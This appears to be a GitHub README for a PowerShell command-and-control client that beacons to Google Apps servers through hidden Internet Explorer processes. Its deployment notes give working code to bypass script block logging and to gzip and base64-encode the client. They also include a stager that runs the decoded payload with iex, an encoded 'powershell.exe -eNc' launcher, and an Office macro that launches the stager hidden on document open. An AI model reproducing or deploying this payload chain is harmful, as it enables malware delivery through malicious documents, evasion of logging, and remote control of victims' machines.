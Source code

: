## Client Support

![Windows-Tested](https://img.shields.io/static/v1?label=Windows%20%28Tested%29&message=10&color=success&logo=windows&style=flat-square&logoColor=cyan) ![Windows-Untested](https://img.shields.io/static/v1?label=Windows%20%28Untested%29&message=8%2C%207%2C%20Vista%2C%20XP%2c%20Windows%20Server%20%28any%29&color=important&logo=windows&style=flat-square&logoColor=cyan) 

## Deployment Notes

- Since PowerShell is an interpreted language, `client.ps1` is written to limit payload size. 
- The client uses the [InternetExplorer COM Interface](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/aa752084(v%3Dvs.85)) in PowerShell to create hidden InternetExplorer processes that reach out to the Google Apps Servers in the background. 
- The client disables _<u>process local</u>_ PowerShell script block logging using the technique outlined [here](https://cobbr.io/ScriptBlock-Logging-Bypass.html) first before continuing client execution.
- Add your Google Apps Server URLs to the `$SRV` array variable in `client.ps1`. The client will cycle through the array to load balance server connections.
- Run the following PowerShell to generate a payload:

```powershell
# read in UTF8 encoded file data
$utf8 = [system.io.file]::readallbytes('<path to client.ps1>');
$text = [system.text.encoding]::utf8.getstring($utf8);
# compress payload into one line
$text = $text.replace("  ","").replace("`n","").replace("`r","");
$bytes = [system.text.encoding]::utf8.getbytes($text);
# compress unicode payload using gzip
$buf = new-object system.io.memorystream;
$gzip = new-object system.io.compression.gzipstream(
    $buf,
    [system.io.compression.compressionmode]::compress);
$gzip.write($bytes, 0, $bytes.length);
$gzip.close();
# base64 encode compressed payload
[system.convert]::tobase64string($buf.toarray());
$buf.close();
```

- Copy the above base64 encoded payload and paste it into the following script and replace `<PAYLOAD>`:

```powershell
$d=[system.convert]::frombase64string("<PAYLOAD>");
$m=new-object system.io.memorystream;
$m.write($d,0,$d.length);
$m.seek(0,0)|out-null;
$z=new-object system.io.compression.gzipstream($m,[system.io.compression.compressionmode]::decompress);
$s=new-object system.io.streamreader($z);
iex($s.readtoend())
```

- Save the previous script with your `<PAYLOAD>` as `stager.ps1` and run the following PowerShell:

```powershell
# read in UTF8 encoded file data
$utf8 = [system.io.file]::readallbytes('<path to stager.ps1>');
$text = [system.text.encoding]::utf8.getstring($utf8);
# compress stager into one line
$text = $text.replace("`n","").replace("`r","");
# convert from UTF8 to Unicode (PowerShell.exe needs base64 Unicode)
$unicode = [system.text.encoding]::convert(
    [system.text.encoding]::utf8, 
    [system.text.encoding]::unicode, 
    [system.text.encoding]::utf8.getbytes($text));
# output base64 stager
[system.convert]::tobase64string($unicode);
```

- Copy the base64 encoded stager and paste it into the following command by replacing `<STAGER>`:
  - More information about PowerShell obfuscation can be found [here](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1492186586.pdf)

```
powershell.exe -eNc <STAGER>
```

- If you are looking for a VBS macro for embedding your payload into a Microsoft Office document, here is one that uses the same `<STAGER>` from the previous steps:

```vbscript
Private Sub run()
  Dim cmd As String
  cmd = "wmic process call create 'powershell.exe -eNc <STAGER>'"
  Set sh = CreateObject("WScript.Shell")
  res = sh.run(cmd,0,True)
End Sub
Sub AutoOpen()
  run
End Sub
Sub AutoExec()
  run
End Sub
Sub Auto_Open()
  run
End Sub
Sub Auto_Exec()
  run
End Sub
```

- Here are some fun PowerShell test commands :wink::

```powershell
(new-object -com SAPI.SpVoice).speak('self destruct in 9 8 7 6 5 4 3 2 1 boom');
$e=new-object -com internetexplorer.application; 
$e.visible=$true;
$e.navigate('https://www.youtube.com/watch?v=dQw4w9WgXcQ');
```

